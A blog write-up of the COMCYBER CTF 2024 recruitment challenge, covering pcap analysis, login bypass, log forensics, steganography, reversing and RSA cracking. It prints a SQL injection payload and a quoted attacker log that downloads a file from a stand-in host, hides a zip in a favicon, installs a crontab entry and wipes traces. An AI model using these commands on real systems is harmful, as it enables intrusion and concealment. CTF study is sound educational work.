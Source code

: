 ```yaml
---
title: "COMCYBER CTF 2024"
date: 2024-08-27 00:00:00 +0800
categories: [CTF]
tags: [CTF]
---
```


# COMCYBER CTF

The September 2 2024, the Commandement de la Cyberdéfense (ComCyber) made a CTF to recruit new people in "cyber sous-officiers"
The challenge was noted easy-medium

I'll talk about my experience in this post and how i manage to solve it, 

if you want to see the official writeup : https://blog.root-me.org/posts/writeup_comcyber/


## First Step : Network Analysis

In the first step of the CTF you need to download a .pcap file and analyze it using Wireshark 

There is a protocol called TELNET which you can filter in wireshark and scrolling through it you can read the first flag encoded,
You can get the first flag by decoding Base64 encoded string,

If you keep searching in the PCAP and follow the UDP Stream, you can acccess to 163.172.68.42.23:5000.

## Second Step : SQL Injection (lol)

The second flag is a login page, you can access it by doing ' or 1=1; -- 


## Third Step : Forensics

In the dashboard you can download a log file, once the file is download i made a small python script ton only get useful informations

filename = 'debug.txt'

with open(filename, 'r') as fichier:
    # Lire toutes les lignes du fichier
    lignes = fichier.readlines()
lignes_cmd = [ligne for ligne in lignes if 'CMD' in ligne]
for ligne in lignes_cmd:
    print(ligne.strip())


You have multiple result but the importants ones are : 


    echo 'efa3fb1f409aa622dddd7220ad6567580fb68b68' > /tmp/.password
    vim message.txt
    wget -O /dev/null https://attacker.site/m4lw3r3
    zip --password ($cat /tmp/.password) secret.zip message.txt m4lw3r3
    cat /app/static/assets/images/favicon.ico ./secret.zip > /app/static/assets/images/favicon.ico
    echo '2a202a202a202a202a20206563686f2027524d7b393835336561303861623734373265653865663237633631363239396461663530653330626439307d270a' | xxd -r -p | crontab -
    crontab -l
    rm -rf ./message.txt ./secret.zip ./m4lw3r3
    rm -rf /tmp/.password


You can get the third flag in Hexadecimal into the crontab


## Fourth Step : Binwalk Steganography

With binwalk you can extract files from the favicon, 

You have a zipfile inside the binwalk which you can extract using the password you found in the logs, 

Once it's extracted you have another flag, in the message.txt

There is also a m4lw3r3

## Fifth Step : Reverse Engineering

Now, you have a m4lw3r3 binary file and when you run it it ask for 2 inputs, [input1] [input2]

Using Ghidra you can reverse the file, the first input, is cut in 3 strings

## Sixth Step : RSA Cryptography

This part was the "hardest part" of the CTF, you need to find the input2, the program is using cryptographic functions for RSA encryptions, using the variables n, e and c, 

Once you have these variables you need to convert it from hexadecimal to decimal, i searched if there were differents vulnerabilities to crack the RSA, using Boneh Durfee or Wiener, but at the end you can do it with Wiener and RSACTFTOOL

When you have the string character you can go back to the dashboard and enable communication, here you have the last flag

## Conclusion

Overall the challenge was fun to do, but i wish it was a bit harder to do the login connection, i hope they will do more CTF like this, and i think it's a good idea to recruit based on CTF ! 

